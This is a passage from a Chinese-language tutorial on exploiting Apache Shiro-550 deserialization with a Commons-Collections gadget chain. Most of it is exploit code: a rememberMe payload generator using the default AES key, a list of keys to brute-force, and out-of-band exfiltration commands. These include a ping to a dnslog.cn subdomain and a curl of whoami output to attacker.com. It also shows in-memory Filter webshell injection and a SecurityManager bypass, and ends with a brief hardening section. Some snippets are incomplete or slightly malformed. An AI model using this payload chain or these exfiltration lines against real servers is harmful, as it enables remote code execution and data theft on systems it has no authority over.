    // 反射注入恶意对象
    Field valField = BadAttributeValueExpException.class.getDeclaredField("val");
    valField.setAccessible(true);
    valField.set(exploit, entry);
    
    return exploit;
}
```

#### **3.2 调用链时序分析**

#### **3.3 关键反射点剖析**

```
// InvokerTransformer.transform()核心代码
public Object transform(Object input) {
    Class cls = input.getClass();
    Method method = cls.getMethod(iMethodName, iParamTypes); // 反射获取方法
    return method.invoke(input, iArgs); // 反射调用方法
}
```

**危险组合：**

1. 动态获取类名（ConstantTransformer）
2. 动态加载类（Class.forName）
3. 反射调用任意方法（Method.invoke）

### 四、手工打造完整 POC（从零编写）

#### 步骤1：手工序列化恶意对象

```
ByteArrayOutputStream baos = new ByteArrayOutputStream();
try (ObjectOutputStream oos = new ObjectOutputStream(baos)) {
    oos.writeObject(exploit); 
}
byte[] payload = baos.toByteArray();
```

#### 步骤2：实现AES-CBC加密

```
Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
SecretKeySpec keySpec = new SecretKeySpec(key, "AES");
IvParameterSpec ivSpec = new IvParameterSpec(iv);

cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
byte[] ciphertext = cipher.doFinal(payload);
byte[] encrypted = ByteArray.concat(iv, ciphertext); // IV+密文
```

#### 步骤3：Base64编码优化

```
// 特殊处理Base64输出兼容性
String rememberMe = Base64.getEncoder()
        .encodeToString(encrypted)
        .replace('+', '-')
        .replace('/', '_')  // URL安全字符替换
        .replace("
", "")
        .replace("\r", "")
        .replace("=", "");  // 去除填充符
```

#### 完整工具类核心代码：

```
public class ShiroPOCGenerator {
    private static final byte[] DEFAULT_KEY = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
    
    public static String generateExploit(String command) throws Exception {
        // 1. 构造CC链对象
        Object exploit = buildCC5Exploit(command);
        
        // 2. 序列化
        byte[] payload = serialize(exploit);
        
        // 3. 生成随机IV
        byte[] iv = SecureRandom.getInstanceStrong().generateSeed(16);
        
        // 4. AES加密
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, 
                   new SecretKeySpec(DEFAULT_KEY, "AES"), 
                   new IvParameterSpec(iv));
        
        byte[] ciphertext = cipher.doFinal(padPayload(payload));
        byte[] encrypted = Arrays.copyOf(iv, iv.length + ciphertext.length);
        System.arraycopy(ciphertext, 0, encrypted, iv.length, ciphertext.length);
        
        // 5. Base64编码 + URL安全处理
        return makeURLSafe(Base64.getEncoder().encodeToString(encrypted));
    }
    
    private static byte[] padPayload(byte[] payload) {
        int padLen = 16 - (payload.length % 16);
        byte[] padded = new byte[payload.length + padLen];
        System.arraycopy(payload, 0, padded, 0, payload.length);
        Arrays.fill(padded, payload.length, padded.length, (byte)padLen);
        return padded;
    }
}
```

### 五、实战攻击深度技巧

#### 1. 密钥自动化爆破

```
# 常用密钥列表
SHIRO_KEYS = [
    "kPH+bIxk5D2deZiIxcaaaA==",  # 官方默认1
    "2AvVhdsgUs0FGA==",          # 常见默认2
    "3AvVhmFLUs0KTA3"            # 常见默认3
]

def test_key(key):
    try:
        # 用密钥解密返回的deleteMe Cookie
        # 如果解密后包含AC ED（序列化魔数），说明有效
        return contains_serialized_marker(decrypt(cookie, key))
    except:
        return False
```

#### 2. 无回显利用技巧

```
// 通过DNS泄漏检测（适合内网场景）
String cmd = "ping -n 3 "+ token + ".dnslog.cn";

// 通过HTTP外带数据
String exfilUrl = " http://attacker.com/?token= ";
String cmd = "curl "+ exfilUrl + "$(whoami|base64)";
```

#### 3. 内存马注入（进阶）

```
// 示例：Filter内存马注入
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Thread.class),
    new InvokerTransformer("getContextClassLoader",...),
    new InvokerTransformer("loadClass", 
           new Class[]{String.class}, 
           new Object[]{"javax.servlet.Filter"}),
    ... // 构造filter注入逻辑
};
```

### 六、Java 安全机制深度解析

#### 1. Java 序列化协议细节

```
AC ED 00 05      → 序列化头
73               → 对象标识 (TC_OBJECT)
72              → 类描述符标识 (TC_CLASSDESC)
00 32 63 6f...   → 类名长度及UTF8名称
```

**危险特性：**

* 任意类实例化
* 自动递归反序列化
* 自动调用readObject()方法

#### 2. 反射底层操作码

```
// Method.invoke()的JVM实现（简略）
public Object invoke(Object obj, Object[] args) {
    if (!override) {
        // 权限检查（可被setAccessible绕过）
        checkAccess();
    }
    return invoke0(obj, args); // native调用
}

// Hotspot调用流程
invoke0 → JVM_InvokeMethod → jni_invoke_nonstatic()
```

#### 3. 安全管理器限制绕过

```
// 禁用SecurityManager检测
System.setSecurityManager(null);

// 使用反射直接修改字段
Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe) theUnsafe.get(null);
```

### 七、深度加固方案

#### 1. JVM字节码加固

```
// 自定义ObjectInputStream（阻止黑名单类）
protected Class resolveClass(ObjectStreamClass desc) 
    throws IOException, ClassNotFoundException {
    if (blacklist.contains(desc.getName())) {
        throw new InvalidClassException(“禁止类”);
    }
    return super.resolveClass(desc);
}
```

#### 2. 修改JVM启动参数

```
# 禁用com.sun.org.apache.xalan.internal包
–Djava.security.policy==shiro.policy
–Djava.security.manager
```

#### 3. 内核加固配置

```
// linux seccomp策略禁止execve系统调用
{
    "action": "SCMP_ACT_ERRNO",
    "syscall": "execve"
}
```

真正的安全研究要深入到字节级操作和 JVM 层面；

### 参考资料

[Java反序列化Shiro篇01-Shiro550流程分析 | Drunkbaby's Blog](https://drun1baby.top/2022/07/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/#0x03-Shiro-550-%E5%88%86%E6%9E%90)

[https://www.bilibili.com/video/BV1iF411b7bD?spm\_id\_from=0.0.header\_right.fav\_list.click&amp;vd\_source=a4eba559e280bf2f1aec770f740d0645](https://www.bilibili.com/video/BV1iF411b7bD?spm_id_from=0.0.header_right.fav_list.click&vd_source=a4eba559e280bf2f1aec770f740d0645)
